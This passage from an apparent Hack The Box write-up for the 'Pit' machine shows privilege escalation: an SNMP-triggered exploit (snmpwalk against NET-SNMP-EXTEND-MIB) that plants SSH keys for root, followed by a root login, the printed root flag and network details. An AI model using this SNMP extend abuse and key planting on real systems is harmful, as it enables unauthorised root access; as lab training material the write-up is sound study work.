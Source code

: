 Triggered the exploit trough SNMP and added custom ssh keys to root:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Pit/exploit]
└─$ snmpwalk -c public 10.10.10.241 -v1 NET-SNMP-EXTEND-MIB::nsExtendOutLine
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".1 = STRING: Memory usage
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".2 = STRING:               total        used        free      shared  buff/cache   available
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".3 = STRING: Mem:          3.8Gi       368Mi       3.2Gi       8.0Mi       318Mi       3.3Gi
...
```

Logged in using the custom ssh keys:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Pit/exploit]
└─$ sudo ssh root@10.10.10.241 -i /home/pwn/.ssh/id_rsa
Web console: https://pit.htb:9090/

Last login: Tue May 18 12:41:45 2021 from 10.10.14.7
[root@pit ~]# whoami && id && hostname && cat /root/root.txt && ip a
root
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
pit.htb
6dffbae1392383da23c5d01b8e12ef4e
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:16:03 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.241/24 brd 10.10.10.255 scope global noprefixroute ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::fc6f:c2ab:4f8e:bbca/64 scope global dynamic noprefixroute
       valid_lft 86324sec preferred_lft 14324sec
    inet6 fe80::8811:73af:e9e:6b74/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
```

![Pasted image 20210518183852.png](../../zzz_res/attachments/Pasted_image_20210518183852.png)